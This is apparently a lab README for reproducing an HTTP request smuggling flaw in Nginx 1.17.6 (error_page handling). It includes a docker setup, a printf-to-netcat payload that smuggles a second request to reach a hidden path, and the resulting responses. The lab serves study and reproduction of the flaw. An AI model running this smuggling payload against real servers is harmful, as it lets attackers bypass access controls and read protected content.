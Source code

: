 #	Nginx - Http Smuggling

##	Composition

Nginx 1.17.6



##	Usage

Only for PoC.

###	build

```bash
docker-compose up -d
```

The nginx server will on the port 9015.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



###	reproduce

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /_hidden/index.html HTTP/1.1\r\n'\
'Host: notlocalhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9015
```

Try the command above and you will get two responses as following.

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

This should be hidden!
```

#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf